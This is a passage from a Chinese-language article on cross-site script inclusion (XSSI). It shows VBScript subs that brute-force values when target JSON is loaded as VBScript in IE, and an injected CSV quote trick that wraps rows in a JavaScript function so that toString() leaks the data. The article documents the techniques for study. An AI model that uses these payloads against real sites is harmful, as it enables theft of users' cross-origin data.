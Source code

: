 然后再我们的攻击界面中调用vbscript

```
<SCRIPT language="vbscript">
Sub [1,"xyz121"]: MsgBox "value=xyz121": End Sub
Sub [1,"xyz122"]: MsgBox "value=xyz122": End Sub
Sub [1,"xyz123"]: MsgBox "value=xyz123": End Sub
Sub [1,"xyz124"]: MsgBox "value=xyz124": End Sub
</SCRIPT>
<!-- load target JSON as VBScript -->
<SCRIPT src="(target data's URL)" language="vbscript"></SCRIPT>

```

跟上面的攻击相似，都是通过穷举来获取目标值。不过vbscript只试用于ie。

ps: 怎么说呢。。。我觉得好蛋疼。

CSV with quotations thef
------------------------

* * *

上面获取csv的信息只在目标的字符串没被引号扩起来的情况下，不过同样是一些小技巧能够使我们绕过这一限制。

让我们假设一个csv长这个b样。

`1,"___","aaa@a.example","03-0000-0001"`

`2,"foo","bbb@b.example","03-0000-0002"`

`...`

`98,"bar","yyy@example.net","03-0000-0088"`

`99,"___","zzz@example.com","03-0000-0099"`

假设攻击者能够插入自己的字符串，那么只需要根据RFC相关CSV (RFC 4180 (12])中的规定来添加一个双引号就可以bypass这个限制。

for example

`1,"\"",$$$=function(){/*","aaa@a.example","03-0000-0001"`

`2,"foo","bbb@b.example","03-0000-0002"`

`...`

`98,"bar","yyy@example.net","03-0000-0088"`

`99,"*/}//","zzz@example.com","03-0000-0099"`

一个比较蛋疼的问题就是如何获取多行的信息，因为多行在js中是违法的，上面的例子里，我们使用 $$$=function() {/_…_/}来进行攻击，然后攻击者可以调用$$$.toString() 获取函数远吗来达到攻击目标数据的目的。这种攻击方式试用于所有的浏览器。

一种获取多行内容的方式可以在chrome和firefox中奏效，就是ECMAScript6模版字符串中通过反引号来获取多行内容。

0x02 结论
=====

下面是需要注意的一些问题。

上面我们演示了xssi通过组合浏览器漏洞或者一些攻击技巧来到达获取一些特定数据的目的，不过其利用场景还是具有局限性的。
